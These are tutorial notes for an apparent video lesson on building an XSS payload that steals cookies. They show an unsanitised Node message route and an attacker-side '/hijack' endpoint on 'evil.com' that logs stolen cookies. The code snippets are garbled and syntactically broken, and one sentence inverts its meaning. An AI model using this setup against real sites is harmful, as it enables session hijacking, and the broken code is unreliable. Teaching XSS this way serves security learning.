 [Video Link](https://egghead.io/lessons/egghead-make-an-xss-payload-to-read-a-cookie-from-a-vulnerable-website)

# 10. Make an XSS Payload to Read a Cookie from a Vulnerable Website

**XSS attacks use a web app to inject malicious code to user on a trusted application**

This happens when a website includes user input and output with validation or encoding.

The way this works is that a message gets pushed under the `messages` array 

The message that gets pushed is a message from our `user.username`, followed by the value of the message parameter from the request.

```js
Const messages = [];

Module.exports = app => {
.
.
.
message.push(
	`message from ${request.session.user.username}: ${request.body.messages}`
)
}
```

The message is not sanitized or encoded, in the message route they messages are just printed out in plain HTML

Go to index.js, add an endpoint called /hijack to evil.com

Then log “received cookie” and put the info in the payload parameter of our `get` query, and respond with status 200 and OK

```js
app.route(“/hijack”).get((request, response)) => {})
console.log(“received cookie”, request.query.payload)
response.status(200);
response.send(“ok”)
)
```
